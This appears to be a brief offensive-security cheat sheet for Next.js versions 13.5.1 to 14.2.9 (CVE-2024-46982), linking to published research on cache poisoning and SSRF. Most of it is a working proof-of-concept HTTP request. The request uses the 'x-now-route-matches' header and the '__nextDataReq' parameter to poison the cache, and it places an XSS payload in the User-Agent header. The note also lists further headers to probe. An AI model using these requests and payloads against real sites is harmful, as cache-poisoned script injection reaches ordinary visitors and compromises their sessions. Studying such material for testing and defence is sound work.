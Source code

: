 #### Next.js between 13.5.1 and 14.2.9 => CVE-2024-46982

[https://zhero-web-sec.github.io/research-and-things/nextjs-cache-and-chains-the-stale-elixir](https://zhero-web-sec.github.io/research-and-things/nextjs-cache-and-chains-the-stale-elixir)


## Headers 
```
x-now-route-matches: 1
```
```
/_next/data/{buildID}/targeted-page.json

https://www.example.com/?__nextDataReq=1
```

```
GET /poc?__nextDataReq=1 HTTP/1.1
Host: localhost:3000
User-Agent: CP TO SXSS ON NEXT.JS : <img src=x onerror=alert('Palestine')>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
x-now-route-matches: 1
```

## Try this headers in the request and Observer the Changes in the Response headers. 

```
X-middleware-prefetch: 1
```

```
RSC: 1
```


------------------------------

## SSRF 

[https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps](https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps)
